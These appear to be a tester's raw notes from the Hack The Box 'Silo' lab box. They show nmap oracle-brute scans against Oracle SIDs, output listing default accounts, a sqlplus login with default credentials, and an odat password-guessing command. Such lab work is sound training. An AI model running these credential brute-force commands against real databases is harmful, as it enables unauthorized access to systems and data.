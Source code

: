 kali@kali:~/htb/boxes/silo/10.10.10.82$ cat dbs.txt 
CLRExtProc
PLSExtProc
XE



nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=CLRExtProc 10.10.10.82



nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=PLSExtProc 10.10.10.82



nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=XE 10.10.10.82
    PORT     STATE SERVICE REASON
    1521/tcp open  oracle  syn-ack
    | oracle-brute: 
    |   Accounts: 
    |     CTXSYS:CTXSYS - Account is locked
    |     MDSYS:MDSYS - Account is locked
    |     OUTLN:OUTLN - Account is locked
    |     HR:HR - Account is locked
    |     DBSNMP:DBSNMP - Account is locked
    |     DIP:DIP - Account is locked
    |     XDB:CHANGE_ON_INSTALL - Account is locked
    |_  Statistics: Performed 695 guesses in 14 seconds, average tps: 49.6



kali@kali:~/htb/boxes/silo/10.10.10.82$ sqlplus DBSNMP/DBSNMP@10.10.10.82/XE
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory



https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared
sudo sh -c "echo /usr/lib/oracle/19.6/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig



nmap --script oracle-brute -p 1521 --script-args "oracle-brute.sid=XE,brute.credfile=/opt/lists/pass-oracle.txt" 10.10.10.82


![](2021-01-26-13-34-46.png

python3 odat.py passwordguesser -s 10.10.10.82 --accounts-file /opt/lists/oracle_userpass_slashes.txt -d XE
